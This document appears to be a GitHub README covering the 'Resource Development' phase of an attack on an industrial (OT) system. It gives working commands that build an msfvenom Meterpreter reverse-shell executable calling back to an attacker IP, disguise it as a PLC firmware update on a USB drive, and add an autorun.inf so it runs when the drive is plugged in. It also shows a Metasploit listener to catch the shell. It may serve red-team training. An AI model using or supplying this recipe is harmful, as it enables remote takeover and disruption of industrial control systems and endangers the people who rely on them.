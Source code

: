 # Resource Development

In this phase, the attacker develops a malicious program to be delivered via a USB thumb drive. The USB will be disguised as a legitimate firmware update for the target OT system, obtained through the information gathered during the **Reconnaissance** phase.

- **MITRE ATT&CK Technique**: [T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/)

## Objective

The goal is to craft a malicious executable that will run automatically when inserted into the target OT system, allowing the attacker to gain control or disrupt operations.

## Steps to Execute Resource Development

### 1. Create a Malicious Payload Using `msfvenom`

The malicious program can be generated using **Metasploit**’s `msfvenom` tool. This payload will be disguised as a firmware update and executed when inserted into the OT system.

#### Command to Generate a Payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f exe -o firmware_update.exe
```

- LHOST: IP address of the attacker's machine where the reverse shell will connect.
- LPORT: Port to listen for the reverse shell connection.
- -f exe: Specifies the format of the output file as a Windows executable.
- firmware_update.exe: The name of the malicious file disguised as a firmware update.


### 2. Load the Payload onto a USB Thumb Drive
Once the malicious executable is created, it needs to be placed on a USB thumb drive:

- Insert the USB drive into the attacker's machine

- Copy the malicious payload onto the drive:
```
cp firmware_update.exe /media/usb-drive/
```
- Rename the file to something that looks legitimate, such as:
```
mv /media/usb-drive/firmware_update.exe /media/usb-drive/PLC_Firmware_Update.exe
```

### 3. Configure Autorun (Optional)
For systems that still support autorun (e.g., legacy Windows-based OT workstations), you can create an autorun.inf file to automatically execute the malicious file when the USB drive is inserted:

- Create an autorun.inf file on the USB drive:
```
echo "[autorun]" > /media/usb-drive/autorun.inf
echo "open=PLC_Firmware_Update.exe" >> /media/usb-drive/autorun.inf
```
- Save and safely eject the USB drive.

### 4. Test the Malicious Payload
Test the payload to ensure it works as expected by running the PLC_Firmware_Update.exe on a virtual machine or test system. You can listen for the reverse shell on the attacker's machine using Metasploit:

#### Set up a Metasploit Listener:
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.115
set LPORT 4444
exploit
```
When the payload is executed, the attacker will gain a reverse shell into the system.

## Next Steps
Once the malicious USB drive is prepared, it will be delivered to the target via social engineering in the Initial Access phase.

## Summary
In the Resource Development (T1587.001) phase, the attacker creates a malicious program that will be loaded onto a USB thumb drive, disguised as a legitimate firmware update. This payload is designed to provide the attacker with access to the OT system when inserted and executed by the target.


```
This `README.md` outlines how the attacker prepares the malicious payload and USB drive during the **Resource Development** phase of the attack.
```
